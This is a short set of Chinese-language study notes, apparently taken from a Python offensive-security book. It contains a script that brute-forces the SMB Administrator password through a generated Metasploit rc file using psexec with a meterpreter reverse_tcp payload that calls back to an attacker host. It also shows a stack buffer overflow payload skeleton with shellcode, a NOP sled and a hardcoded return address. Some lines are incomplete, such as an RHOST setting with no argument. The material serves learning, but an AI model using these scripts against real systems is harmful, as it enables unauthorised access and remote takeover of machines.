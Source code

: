 ### 暴力破解口令，远程执行一个进程

需要用暴力攻击的方式破解 SMB 用户名/密码，以此获取权限在目标主机上远程执行一个进程（psexec）

```python
def smb_brute(config_file, target_host, passwd_file, lhost, lport):
    username = "Administrator"
    pf = open(passwd_file, "r")
    for password in pf.readlines():
        password = password.strip("\r\n")
        config_file.write("use exploit/windows/smb/psexec\n")
        config_file.write("set SMBUser {}\n".format(username))
        config_file.write("set SMBPass {}\n".format(password))
        config_file.write("set RHOST {}\n")
        config_file.write("set PAYLOAD windows/meterpreter/reverse_tcp\n")
        config_file.write("set LPORT {}\n".format(lport))
        config_file.write("set LHOST {}\n".format(lhost))
        config_file.write("exploit -j -z\n")
```

### 整合

最主要的是 main 函数如何与 metasploit 交互，发现是通过 rc 文件

```python
config_file = open("meta.rc", "w")
...
os.system("msfconsole -r meta.rc")
```

## 编写你自己的 0day 概念验证代码

Morris 蠕虫成功的原因在某种程度上其实就是利用了 Finger service 中的一个基于栈的缓冲区溢出

### 基于栈的缓冲区溢出攻击

```python
shellcode = ("\xbf\x5c....")
overflow = "\x41" * 246
ret = struct.pack("<L", 0x7c874413)
padding = "\x90" * 150
crash = overflow + ret + padding + shellcode
```

### 发送漏洞利用代码

使用 `Berkeley Socket API` 发送，其实就是套接字发送，之前在学校课程已经接触过了，不记录了